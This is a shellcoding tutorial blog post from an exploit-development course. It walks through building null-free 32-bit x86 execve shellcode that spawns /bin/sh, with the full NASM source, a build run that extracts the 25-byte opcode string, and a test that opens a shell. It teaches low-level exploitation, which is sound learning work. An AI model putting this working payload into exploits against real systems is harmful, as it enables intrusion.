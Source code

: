 ```yaml
---
layout: post
title: /bin/sh execve Stack
date: '2016-12-02T18:15:00.000-06:00'
author: Sanjiv Kawa
tags:
- Stack
- Shellcode
- nasm
- assembly
- execve
comments: true
---
```

### The execve SYSCALL
A useful SYSCALL that can help with executing a shell is `execve`.

Looking at the man page for `execve`, there are three main arguments.

~~~ bash
SYNOPSIS
       #include <unistd.h>

       int execve(const char *filename, char *const argv[], char *const envp[]);
~~~

Argument 1 (`*filename`): The program that you want to execute.

Argument 2 (`argv[]`): An array of argument strings passed to the program. By convention, the first of these strings should contain the filename associated with the file being executed.

Argument 3 (`envp[]`): The third argument is an array of strings that you can pass in as an additional environment to the program before it is executed. This argument is typically occupied with nulls as it is not used often.

To execute `/bin/sh`, the first argument, `*filename`, should contain a pointer to a string which reads `/bin/sh`. The second argument, `argv[]` will contain the memory address for a string that contains `/bin/sh` as it's first element, the second element will be `0x00000000` to null terminate the array. Lastly, the thrid argument, `envp[]`, will contain `0x00000000`.


### Building execve-stack.nasm
Based on the arguments required by `execve`, the following general purpose registers will contain the corresponding values:

`EBX`: `/bin/sh0x0` - to satisfy the requirements of `*filename`

`ECX`: the address of `/bin/sh,0x00000000` - to satisfy the requirements of `argv[]`

`EDX`: `0x00000000` - to satisfy the requirements of `envp[]`

`execve` does require a fair number of null bytes, this is an inconvenience as this would almost certainly prevent the execution of the shellcode. As a result, the Stack can be used to store all of the arguments required by `execve`. This is advantageous as memory locations are referenced to the various registers and null bytes themselves are never actually stored in registers.


#### Things to consider
`/bin/sh` is 7 bytes, however adding another `/` does not affect the execution of the shell. `//bin/sh` is 8 bytes, this alleviates any offset issues that may arise.

At times the Stack can be like the <a href="http://strangerthings.wikia.com/wiki/Upside_Down">"Upside Down"</a>. Push things on in reverse order, and remember that the Stack is Last in First Out (LIFO). This means that the last thing that was pushed on to the Stack will be pointed to by the Stack pointer register.

~~~ nasm
;execve //bin/sh
global _start

section .text
_start:

  xor eax, eax  ;zero out eax
  push eax      ;push 00000000 on to the stack


  push 0x68732f6e ;push hex hs/n on to the stack
  push 0x69622f2f ;push hex ib// on to the stack

  ;at this point the stack contains //bin/sh0x00000000
  mov ebx, esp  ;this satisfies the requirements for *filename (first argument of execve)

  push eax      ;push 00000000 on to the stack

  ;at this point the stack contains 0x00000000//bin/sh0x00000000
  mov edx, esp  ;we cant pop 0x00000000 into EDX as the shellcode cannot have any null characters.
                ;instead we move the current address pointed to by ESP into EDX.
                ;this address contains the last value pushed on to the stack, which is 0x00000000
                ;this satisfies the requirements for envp (third argument of execve)

  push ebx      ;ebx contains the memory address of the stack where //bin/sh0x00000000 is.
  mov ecx, esp  ;this satisfies the requirements for argv (second argument of execve)

  mov al, 11     ;execve syscall number, 0xb works also.
  int 0x80       ;initiate
~~~
Source code can also be found <a href="https://github.com/skahwah/slae/blob/master/execve-stack/execve-stack.nasm">here</a>.

I built on top of <a href="https://twitter.com/SecurityTube">Vivek\'s</a> nasm linker and assembler shell script and added the opcode extractor and C compiler used in the SLAE course. You can find `super-compile.sh` <a href="https://github.com/skahwah/slae/blob/master/super-compile.sh">here</a>.

~~~ bash
skawa@ubuntu:~/Desktop/code/execve$ ls
execve-stack.nasm  super-compile.sh
skawa@ubuntu:~/Desktop/code/execve$ ./super-compile.sh execve-stack
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

[+] Creating Shellcode
[+] Compiling Shellcode
[+] Done!
skawa@ubuntu:~/Desktop/code/execve$ ls
execve-stack       execve-stack.o          shellcode-execve-stack.c
execve-stack.nasm  shellcode-execve-stack  super-compile.sh
skawa@ubuntu:~/Desktop/code/execve$ ./shellcode-execve-stack
Shellcode Length: 25
$ exit
skawa@ubuntu:~/Desktop/code/execve$
~~~
